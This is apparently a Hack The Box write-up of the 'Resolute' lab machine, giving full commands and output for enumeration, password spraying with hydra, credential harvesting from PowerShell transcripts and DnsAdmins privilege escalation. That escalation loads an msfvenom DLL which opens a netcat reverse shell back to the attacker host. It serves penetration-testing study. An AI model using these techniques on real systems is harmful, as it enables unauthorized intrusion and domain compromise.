

# Resolute


# Information Gathering

## Nmap
```console
root@discovery:~/htb/resolute# nmap -sV -sC 10.10.10.169
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 18:05 EST
Nmap scan report for 10.10.10.169
Host is up (0.036s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-21 23:13:19Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/21%Time=5DFEA53B%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m53s, deviation: 4h37m10s, median: 7m51s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-21T15:14:05-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-21T23:14:03
|_  start_date: 2019-12-21T17:54:59

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.14 seconds
```

Yikes, that is a lot of ports.

**53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, and 3269**. I am not sure where to start, perhaps I should enumerate further on what I have before picking a direction. That being said we did get a few other interestings that we should keep in mind:

```
0S: Windows Server 2016 Standard 6.3
Domain name: megabank.local
FQDN: Resolute.megabank.local
```

## Enum4Linux

I am going to throw Enum4Linux at it and see what it comes back with. Often, even though its not a linux box this script picks up a ton of useful information.

Users info:
```console
 ============================= 
|    Users on 10.10.10.169    |
 ============================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail      Name: (null)    Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela       Name: (null)    Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette      Name: (null)    Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika       Name: (null)    Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire       Name: (null)    Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude       Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia      Name: (null)    Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo      Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus       Name: (null)    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie      Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki        Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo        Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand     Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally        Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon        Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve        Name: (null)    Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie       Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]

```

Password Policy Info:
```console
 ==================================================== 
|    Password Policy Information for 10.10.10.169    |
 ==================================================== 
[+] Password Info for Domain: MEGABANK

        [+] Minimum password length: 7
        [+] Password history length: 24
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: 1 day 4 minutes 
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 7
```
Oh `Marko` -- I hope you haven't started working at **MEGABANK** and `Welcome123!` isn't your fault. I am going to pull on this thread and see where it takes me.

# Exploitation 

## User Flag

I remembered from one of the last Windows machines I did, Heist, a pretty cool tool called [EvilWinRM](https://github.com/Hackplayers/evil-winrm). Since I have the `Marko`'s username and password I should be able to maybe use it to get in through one of the smb remote management flavors.

```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u marko -p Welcome123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

Negative ghostrider. Authorization error occurred. Marko maybe changed his password. I am going to try `Welcome123@` and `Welcome321!` just for good measure incase he just incremented the password he originally got. 

Nope -- same error. Maybe I am thinking as the wrong user, Marko wasn't necessarily the lazy one here, the admin who provisioned his account was. Perhaps there is another user in the list who also has `Welcome123!` and hasn't changed it yet. I am going to go through the list and see what I come up with, but I also see this as a small opportunity to automate, I am not going to do this manually if I don't have to.

I am going to give hydra a shot:

```console
root@discovery:~/htb/resolute# hydra -t 1 -V -f -L users.txt -p "Welcome123!" 10.10.10.169 smb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-25 00:19:53
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[ATTEMPT] target 10.10.10.169 - login "Administrator" - pass "Welcome123!" - 1 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "Guest" - pass "Welcome123!" - 2 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "krbtgt" - pass "Welcome123!" - 3 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "DefaultAccount" - pass "Welcome123!" - 4 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "ryan" - pass "Welcome123!" - 5 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "marko" - pass "Welcome123!" - 6 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "sunita" - pass "Welcome123!" - 7 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "abigail" - pass "Welcome123!" - 8 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "marcus" - pass "Welcome123!" - 9 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "sally" - pass "Welcome123!" - 10 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "fred" - pass "Welcome123!" - 11 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "angela" - pass "Welcome123!" - 12 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "felicia" - pass "Welcome123!" - 13 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "gustavo" - pass "Welcome123!" - 14 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "ulf" - pass "Welcome123!" - 15 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "stevie" - pass "Welcome123!" - 16 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "claire" - pass "Welcome123!" - 17 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "paulo" - pass "Welcome123!" - 18 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "steve" - pass "Welcome123!" - 19 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "annette" - pass "Welcome123!" - 20 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "annika" - pass "Welcome123!" - 21 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "per" - pass "Welcome123!" - 22 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "claude" - pass "Welcome123!" - 23 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "melanie" - pass "Welcome123!" - 24 of 27 [child 0] (0/0)
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
[STATUS] attack finished for 10.10.10.169 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-25 00:19:58
```
And that was easy! `melanie` looks to be a valid match for `Welcome123!`.

```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> dir
*Evil-WinRM* PS C:\Users\melanie\Documents> cd ..
*Evil-WinRM* PS C:\Users\melanie> dir


    Directory: C:\Users\melanie


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-r---        12/4/2019   2:47 AM                Desktop                                                                                                                                                                                                 
d-r---        12/4/2019   2:46 AM                Documents                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Downloads                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Favorites                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Links                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Music                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Pictures                                                                                                                                                                                                
d-----        7/16/2016   6:18 AM                Saved Games                                                                                                                                                                                             
d-r---        7/16/2016   6:18 AM                Videos                                                                                                                                                                                                  


*Evil-WinRM* PS C:\Users\melanie> cd Desktop
*Evil-WinRM* PS C:\Users\melanie\Desktop> dir


    Directory: C:\Users\melanie\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-ar---        12/3/2019   7:33 AM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
0c3be45fcfe249796ccbee8d3a978540
*Evil-WinRM* PS C:\Users\melanie\Desktop> 
```

I feel that I was either extremely lucky, or root is going to be a doozy. I must press on!

## Root Flag

So one thing I noticed in my initial steps of enumeration for root is that there was another user on this machine aside from `melanie`. `ryan` also had a user directory.

```console
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-----        9/25/2019  10:43 AM                Administrator                                                                                                                                                                                           
d-----        12/4/2019   2:46 AM                melanie                                                                                                                                                                                                 
d-r---       11/20/2016   6:39 PM                Public                                                                                                                                                                                                  
d-----        9/27/2019   7:05 AM                ryan   
```

That is odd, it could be nothing but being as I am denied from viewing `Administrator` as `melanie` I am going to pursue that avenue first. Denied there too, is there any weird software installed? 

```
internet explorer
Microsoft.NET
PackageManagement
VMware
Windows Defender
WindowsPowerShell
```
is all that I see. I always forget to explicitly look for hidden files and in looking at how to do that, I learned that `-force` will do that for me.

Even though I use Windows as my primary OS for most everything, I still feel more comfortable with default linux folders and when things just don't *feel* right? Sometimes completely normal Windows folders look or feel totally out of place to me and I waste a ton of time looking into them or the opposite where I miss the total obvious path because I guess it just looks normal. This time was no different.

```console
*Evil-WinRM* PS C:\> ls -force


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN                                                                                                                                                                                            
d--hsl        9/25/2019  10:17 AM                Documents and Settings                                                                                                                                                                                  
d-----        9/25/2019   6:19 AM                PerfLogs                                                                                                                                                                                                
d-r---        9/25/2019  12:39 PM                Program Files                                                                                                                                                                                           
d-----       11/20/2016   6:36 PM                Program Files (x86)                                                                                                                                                                                     
d--h--        9/25/2019  10:48 AM                ProgramData                                                                                                                                                                                             
d--h--        12/3/2019   6:32 AM                PSTranscripts                                                                                                                                                                                           
d--hs-        9/25/2019  10:17 AM                Recovery                                                                                                                                                                                                
d--hs-        9/25/2019   6:25 AM                System Volume Information                                                                                                                                                                               
d-r---        12/4/2019   2:46 AM                Users                                                                                                                                                                                                   
d-----        12/4/2019   5:15 AM                Windows                                                                                                                                                                                                 
-arhs-       11/20/2016   5:59 PM         389408 bootmgr                                                                                                                                                                                                 
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT                                                                                                                                                                                                 
-a-hs-       12/24/2019   8:59 PM      402653184 pagefile.sys                     
```

I missed PSTranscripts about 50 times, I didn't think it was weird at all.

```console
*Evil-WinRM* PS C:\PSTranscripts> dir -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d--h--        12/3/2019   6:45 AM                20191203                                                                                                                                                                                                
*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
**********************
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```
This definitely looks like something. `ryan` looks like he's in charge of something, and I've now got his password: `Serv3r4Admin4cc123!`. I am going to see if I can connect to the machine with those credentials:

```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```

Alright. Now this can often be where I fall down the deepest of rabbit holes. I need to remember to stick to my process and enumerate. What do we know?

I have a bunch of users, two passwords worked and one worked because of re-use. I need to remember to try to re-use `Serv3r4Admin4cc123!` on other users if I get stuck with `ryan`. I also found that due to a hard-coded password in a PowerShell script; I should look for some more scripts while while on the system as `ryan`.

Before we do any of that, I need to remember *basic* windows enumeration from OSCP: 

| Question                             | Command              |
|--------------------------------------|----------------------|
| Who am I? 						   | `whoami`             |
| What am I on?                        | `hostname`           |
| What groups am I in?                 | `whoami /groups`     |
| What groups are there?               | `net groups /domain` |
| What other users are there?          | `net users /domain`  |
| Are there any other users logged on? | `qwinsta`            |

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> hostname
Resolute
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                                     
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group             
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group             
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                                   
*Evil-WinRM* PS C:\Users\ryan\Documents> net groups /domain

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*Contractors
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\ryan\Documents> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
abigail                  Administrator            angela                   
annette                  annika                   claire                   
claude                   DefaultAccount           felicia                  
fred                     Guest                    gustavo                  
krbtgt                   marcus                   marko                    
melanie                  naoki                    paulo                    
per                      ryan                     sally                    
simon                    steve                    stevie                   
sunita                   ulf                      zach                     
The command completed with one or more errors.
*Evil-WinRM* PS C:\Users\ryan\Documents> qwinsta
qwinsta.exe : No session exists for *
    + CategoryInfo          : NotSpecified: (No session exists for *:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

Alright. So no other users are logged in and none of those users look any different than our original list. There are a couple of interesting groups: **Contractors** and **DnsAdmins**. 

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> get-adgroup dnsadmins


DistinguishedName : CN=DnsAdmins,CN=Users,DC=megabank,DC=local
GroupCategory     : Security
GroupScope        : DomainLocal
Name              : DnsAdmins
ObjectClass       : group
ObjectGUID        : 84a33325-b8f7-4ea8-9668-a5ea4d964b3c
SamAccountName    : DnsAdmins
SID               : S-1-5-21-1392959593-3013219662-3596683436-1101


*Evil-WinRM* PS C:\Users\ryan\Documents> get-adgroup contractors


DistinguishedName : CN=Contractors,OU=Groups,DC=megabank,DC=local
GroupCategory     : Security
GroupScope        : Global
Name              : Contractors
ObjectClass       : group
ObjectGUID        : 9f2ff7be-f805-491f-aff1-3653653874d7
SamAccountName    : Contractors
SID               : S-1-5-21-1392959593-3013219662-3596683436-1103
```

Our boy ryan appears to be the only person in this group, and its perhaps nested somehow within the contractors group? Or vis-versa -- I am not really sure. I work with someone who basically set up my company's AD environment, I am going to talk with him about this later on to get a better understanding.

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> net group contractors /domain
Group name     Contractors
Comment        Contractors

Members

-------------------------------------------------------------------------------
ryan                     
The command completed successfully.
*Evil-WinRM* PS C:\Users\ryan\Documents> net localgroup dnsadmins /domain
Alias name     dnsadmins
Comment        DNS Administrators Group

Members

-------------------------------------------------------------------------------
Contractors
The command completed successfully.
```

But for now, DNSadmins looks like the way to go. I am not sure if it is a well-known group or if its custom. Onwards and upwards to google.

Its always a good sign if you find an article by [Sean Metcalf](https://adsecurity.org/) talking about exactly what you are looking for. In a [post from October 2018](https://adsecurity.org/?p=4064), Sean talks about a technique where a user account which has merely write access to a DNS server object can load an arbitrary DLL as `SYSTEM`. His post is talking about a finding by [Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) from 2017. I feel like I am hot on the trail of this machine's root flag. It doesn't look *too* difficult so even I can do it.

I also found an additional blog post from [SamratAshok](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) that spelled out what steps I need to take a little more clearly.

First I need to weaponize a DLL, msfvenom is the cool tool for that. Since I know this is a windows server 2016 box, it only comes in the 64-bit platform so I am going to use that and just a simple netcat reverse shell back to me and call it a dll:

```console
root@discovery:~/htb/resolute# msfvenom -p windows/x64/exec cmd='\\10.10.14.75\resolute\nc.exe 10.10.14.75 42069 -e cmd.exe' -f dll > payload.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 326 bytes
Final size of dll file: 5120 bytes
```

Next, I'll need to host it on an SMB share. Also from a previous box, I had in my notes an [impacket](https://github.com/SecureAuthCorp/impacket) tool called [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py). This was actually kind of a pain in the ass to get setup, impacket didn't install nicely last time and I just ignored it and never went back to fix it. So it took me about an hour to fully set this part up. I know I could have just copied the raw script over and run it, but whatever.

```console
root@discovery:~/htb/resolute# python smbserver.py -smb2support resolute /root/htb/resolute/
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

and then I need to start my listener:

```console
root@discovery:~/htb/resolute# nc -lvnp 42069
listening on [any] 42069 ...
```

So I am all set up locally, now I need to trigger the exploit on the remote machine. To do so first I need to modify the registry key with a link to my malicious dll on my smb share:

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd Resolute /config /serverlevelplugindll \\10.10.14.75\htb\resolute\payload.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Then I need to stop the DNS server follow by starting it again:

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1960
        FLAGS              : 
```

